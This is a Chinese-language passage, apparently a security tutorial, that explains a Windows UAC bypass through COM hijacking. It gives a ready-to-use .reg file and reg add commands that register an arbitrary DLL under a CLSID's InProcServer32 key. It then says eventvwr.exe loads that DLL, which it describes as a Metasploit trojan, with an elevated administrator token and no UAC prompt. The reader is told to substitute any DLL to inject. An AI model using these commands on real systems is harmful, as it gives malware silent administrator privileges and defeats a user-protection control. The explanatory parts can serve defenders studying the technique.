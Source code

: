 ```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}]

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32]
@="C:\\Temp\\calc.dll"
"ThreadingModel"="Apartment"
"LoadWithoutCOM"=""

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder]
"HideOnDesktop"=""
"Attributes"=dword:f090013d
```

中间的`C:\\Temp\\calc.dll`可以更改为你想要注入的DLL路径（支持绝对路径）。

也可以使用command方式：

```
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "" /t REG_SZ /d "C:\Temp\calc.dll" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "LoadWithoutCOM" /t REG_SZ /d "" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "HideOnDesktop" /t REG_SZ /d "" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "Attributes" /t REG_DWORD /d f090013d /f
```


### 过程浅析

`eventvwr.exe`将会寻找`{0A29FF9E-7F9C-4437-8B11-F424491E3931}`这个组件，而这个组件又需要加载`InProcServer32`指定的DLL，这个DLL的路径就是MSF上传的木马DLL。当DLL一旦加载到`eventvwr.exe`这个进程中，Windows会复制一个管理员的Access Token给这个DLL创建的进程。


## 0x03 Bypass UAC的原理

这个其实准备在后面深度剖析的，还是要解释一下。

如果劫持`explorer.exe`能不能Bypass UAC呢？

答案：不行

因为`eventvwr.exe`如果是被管理员组的用户打开，将会自动提升权限，Windows中会有很多这类的应用程序。

正是因为具有自动提升权限的属性，我们劫持后，就不会触发UAC了，直接获得有管理员权限。

上面说的只是一种方式，还有多种方式，后面我将会介绍：UAC基础、如何挖掘Bypass UAC的方法。